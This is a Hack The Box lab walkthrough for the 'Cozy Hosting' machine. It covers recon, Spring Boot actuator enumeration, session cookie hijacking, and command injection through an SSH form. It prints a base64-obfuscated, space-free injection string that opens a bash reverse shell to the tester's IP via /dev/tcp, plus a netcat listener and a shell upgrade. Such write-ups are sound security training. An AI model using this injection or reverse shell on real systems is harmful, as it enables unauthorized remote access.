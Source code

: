 +++
tags = ["HTB", "RCE", "Linux", "BootStrap", "SpringBoot", "HTTP", "SSH", "SessionHijacking"]
title = "Cozy Hosting Walkthrough"
weight = 10
draft = true
+++

![Cozy Hosting](CozyHosting.png)

&nbsp;
&nbsp;

## Recon
#### NMAP

Typically the first thing I always do on a box is run an ```nmap``` scan with ```-sC``` to run the default set of NSE scripts and ```-sV``` to run service version detection.

![NMAPresults](nmaprecon.png)

Port 22-SSH and port 80-HTTP are open. I'll then update my hosts file to include CozyHosting's IP and URL, because the scan says it could not follow the redirect to the box's URL.

![Hostsfilescreenshot](hostsfile.png)

#### Subdomain Fuzz and the Website

Knowing this host contains a website the first thing I wanted to do was find out what URLs it had. I originally spidered the website with ZAP, but didn't come up with many URL's because ZAP needs to be authenticated to spider the site any farther. 

I moved onto seeing if I could find a targeted SecList to use instead of trying semi-random lists until I stumbled upon the right one.

Opening the web page you notice a few things, but mostly I noticed that there was a link to ```/index``` on the site icon. 

![Mainsite](websitemain.png) 

```/index``` displays a "Whitelable Error Page". 

![IndexError](indexerror.png)

If you search this "Whitelable Error Page" you find that the website is running on Spring Boot. Spring Boot is an open source Java-based framework used to build stand-alone and production ready spring applications according to [Tutorials Point](https://www.tutorialspoint.com/spring_boot/spring_boot_introduction.htm).

Looking through SecLists I see that I have a list for Spring Boot applications. 

Using Dirb and the [SecList](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt) for Spring Boot I discovered a lot more pages than before. 

```dirb http://cozyhosting.htb/ /usr/share/SecLists/Discovery/Web-Content/spring-boot.txt```

![Dirb](dirb.png)

Navigating to the first interesting URL, ```/actuator/sessions```, leads me to find user **kanderson** and an alpha numeric string.

![sessions](sessions.png)

Throwing the string into [CyberChef](https://gchq.github.io/CyberChef/) yeilded nothing. But then after enumerating a few unsuccessful users I saw the site was storing session cookies. 

![SessionCookie](sessioncookie.png)

After pasting the session cookie from ```/actuator/sessions``` onto my existing unautherises session cookie I was able to refresh the page and log in as **K. Anderson**. 

![AdminPannel](adminpan.png)

After trying a few unsuccessful attempts at adding a host to automatic patching and different ways of getting a shell there. I opened Burp to see what the form was actually doing. 

When running the connection settings form I saw that it was actually trying to execute an SSH command.

![ExecuteSSH](exesshinit.png)

After I realized it was running a command, I tried a few command injections and came back with the usage syntax for SSH verifying it was running commands in ```/bin/bash```. 

![SSHSyntax](exesshPing.png)

## Initial Foothold

My next step was to try to get a reverse shell to work. I tried a few shells and formats, but found they could not contain whitespace. I researched how to get a shell with out spaces and came across HackTricks page on [Bypassing Linux Restrictions](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions) and thier page on Linux Shells which included [Symbol Safe Shells](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux#symbol-safe-shell). 

After reading these I was able to craft the below shell. 

```;echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNjIvMTIzNCAwPiYxCg=="|base64${IFS}-d|bash;``` with the encoded payload of ```bash -i >& /dev/tcp/10.10.14.162/1234 0>&1```.

**Payload**: ```bash -i >& /dev/tcp/YOUR LOCAL IP/1234 0>&1```

**Shell**: ```;echo${IFS}"BASE 64 ENCODED PAYLOAD"|base64${IFS}-d|bash;```

I used [CyberChef](https://gchq.github.io/CyberChef/#recipe=To_Base64('A-Za-z0-9%2B/%3D')&input=YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4xNjIvMTIzNCAwPiYx) to encode my payload, but it is also super helpful for decoding as well. 

![CyberChef](cyberchef.png)

Next I set up a [NetCat listener](https://blog.natem135.com/posts/using-a-netcat-listener/) on the same port as my encoded payload - port 1234. 

![NetCatListener](listener.png)

Once the listener was up and running I went back to the Connection Settings panel of CozyHosting.

So the host name should be your local IP or localhost and your username should be the entire shell from above. 
Above I also have my local IP, but found my shell worked with [localhost](https://unix.stackexchange.com/questions/184447/whats-the-difference-between-a-machines-ip-address-and-localhost) - 127.0.0.1. 

You can also do the same in Burp's Repeater, but I was having trouble getting the shell to run there.

![Base64Shell](base64shell.png)

Click "Submit" and you should have a shell!

![shell](shell.png)

The next step is not necessary for the machines, but useful to know for. The shell I gained was a shell with no job control and is not a fully interactive shell. To upgrade the shell you can run the following commands: 

```python3 -c 'import pty;pty.spawn("/bin/bash")'``` and then set the type of terminal to xterm, because it is currently set to "dumb". ```export TERM=xterm```

S1ren from OffSec shared their common commands to break out of a terminal [here](https://sirensecurity.io/blog/break-out-get-that-tty/).

